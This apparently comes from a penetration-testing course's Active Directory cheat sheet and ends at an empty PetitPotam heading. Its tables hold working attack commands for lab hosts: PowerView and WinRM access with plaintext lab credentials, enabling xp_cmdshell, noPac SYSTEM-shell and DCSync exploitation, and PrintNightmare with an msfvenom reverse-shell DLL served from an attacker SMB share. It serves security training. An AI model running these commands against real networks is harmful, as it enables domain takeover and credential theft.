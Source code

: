 | `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool used to enumerate the Remote Management Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host. |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable ($password) set equal to the password (Klmcargo2) of a user from a Windows-based host. |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable ($cred) set equal to the username (forend) and password ($password) of a target domain account from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Uses the PowerShell cmdlet Enter-PSSession to establish a PowerShell session with a target over the network (-ComputerName ACADEMY-EA-DB01) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior ($cred & $password). |
| `evil-winrm -i 10.129.201.234 -u forend` | Used to establish a PowerShell session with a Windows target from a Linux-based host using WinRM. |
| `Import-Module .\PowerUpSQL.ps1` | Used to import the PowerUpSQL tool. |
| `Get-SQLInstanceDomain` | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host. |
| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to a SQL server and query the version (-query 'Select @@version') from a Windows-based host. |
| `mssqlclient.py` | Impacket tool used to display the functionality and options provided with mssqlclient.py from a Linux-based host. |
| `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth` | Impacket tool used to connect to a MSSQL server from a Linux-based host. |
| `SQL> help` | Used to display mssqlclient.py options once connected to a MSSQL server. |
| `SQL> enable_xp_cmdshell` | Used to enable xp_cmdshell stored procedure that allows for executing OS commands via the database from a Linux-based host. |
| `xp_cmdshell whoami /priv` | Used to enumerate rights on a system using xp_cmdshell. |

## NoPac

| Command | Description |
|---------|-------------|
| `sudo git clone https://github.com/Ridter/noPac.git` | Used to clone a noPac exploit using git. Performed from a Linux-based host. |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs scanner.py to check if a target system is vulnerable to noPac/Sam_The_Admin from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the noPac/Sam_The_Admin vulnerability and gain a SYSTEM shell (-shell). Performed from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the noPac/Sam_The_Admin vulnerability and perform a DCSync attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |

## PrintNightmare

| Command | Description |
|---------|-------------|
| `git clone https://github.com/cube0x0/CVE-2021-1675.git` | Used to clone a PrintNightmare exploit using git from a Linux-based host. |
| `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install` | Used to ensure the exploit author's (cube0x0) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host. |
| `rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'` | Used to check if a Windows target has MS-PAR & MS-RPRN exposed from a Linux-based host. |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll` | Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host. |
| `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll` | Used to create an SMB server and host a shared folder (CompData) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host. |
| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host. |

## PetitPotam
